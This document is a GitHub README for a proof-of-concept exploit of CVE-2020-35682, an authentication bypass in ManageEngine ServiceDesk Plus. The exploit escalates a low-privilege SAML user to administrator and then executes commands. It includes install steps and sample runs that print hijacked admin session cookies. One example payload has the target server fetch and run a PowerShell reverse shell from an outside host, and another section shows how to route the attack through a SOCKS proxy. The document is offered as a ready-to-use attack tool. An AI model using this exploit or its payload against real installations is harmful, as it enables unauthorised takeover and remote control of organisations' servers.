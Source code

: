 # CVE-2020-35682

SD-91948: CVE-2020-35682: Authentication Bypass Vulnerability during SAML login in ServiceDesk Plus. (As described by [ManageEngine](https://www.manageengine.com/products/service-desk/on-premises/readme.html)). If the target ServiceDesk Plus (<11134) installation has SAML login enabled and you have credentials to a low privilege user then you can escalate to administrator and gain RCE.

I decided to release this POC since there is neither any public exploit nor much description available for exploiting said bug. The code is quite messy but it works.

## Installation

```bash
git clone https://github.com/its-arun/CVE-2020-35682.git
cd CVE-2020-35682
pip3 install -r requirements.txt
chmod +x exploit.py
```

## Usage

```
┌─[✗]─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -h
usage: exploit.py [-h] -u URL -e EMAIL -p PASSWORD -d DOMAIN [-x PAYLOAD] [-a ADMINUSERNAME]

CVE-2020-35682 : Authentication Bypass Vulnerability during SAML login in ServiceDesk Plus

optional arguments:
  -h, --help            show this help message and exit
  -x PAYLOAD, --payload PAYLOAD
                        Payload to execute on target, eg: "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1
                        -usebasicparsing)"
  -a ADMINUSERNAME, --adminusername ADMINUSERNAME
                        Admin Username, default: administrator

required named arguments:
  -u URL, --url URL     ServiceDesk Plus installation url, eg. https://tenet.local/sdp
  -e EMAIL, --email EMAIL
                        User E-mail for SAML Login, eg: chris@tenent.local
  -p PASSWORD, --password PASSWORD
                        User Password for SAML Login
  -d DOMAIN, --domain DOMAIN
                        Domain, eg: TENET
```
#### Get Administrator Cookie

```
┌─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -u "https://tenet.local/sdp" -e 'chris@tenet.local' -p 'P@ssw0rd' -d "TENET"
[+] Created session as administrator.
[+] Use following cookies to login as administrator
	=[COOKIE NAME]=                =[COOKIE VALUE]=              
	JSESSIONIDSSO                  E1D80C738E12085360A789109D43A233
	PORTALID                       1                             
	SDPSESSIONID                   918B7C63186055F72EAD2DEAC34B4CA9

```

#### Execute command on target

```
┌─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -u "https://tenet.local/sdp" -e 'chris@tenet.local' -p 'P@ssw0rd' -d "TENET" -x "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1 -usebasicparsing)"
[+] Created session as administrator.
[+] Use following cookies to login as administrator
	=[COOKIE NAME]=                =[COOKIE VALUE]=              
	JSESSIONIDSSO                  2316433DF39DFFE8ACD4E1DDD759D259
	PORTALID                       1                             
	SDPSESSIONID                   666788540DB6329CB7E59E1E96FF30EB
[+] Created custom trigger ADQRYN11WA6KEXIQ
[+] Created Request to trigger custom action ADQRYN11WA6KEXIQ
[+] Executed "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1 -usebasicparsing)" on "https://tenet.local/sdp"
[+] Deleted Request ADQRYN11WA6KEXIQ
[+] Deleted Custom Action ADQRYN11WA6KEXIQ

```

#### Using with proxy

Proxies can be defined on line 9 in exploit.py in following format
```python
proxies = {'http': 'socks4://127.0.0.1:9050','https': 'socks4://127.0.0.1:9050'}
```
Or you can set proxy as environment variable if you don't wish to edit source
```bash
export HTTP_PROXY="socks4://127.0.0.1:9050"
export HTTPS_PROXY="socks4://127.0.0.1:9050"
```
Make sure to unset these variables after running exploit.
```bash
unset HTTP_PROXY HTTPS_PROXY
```
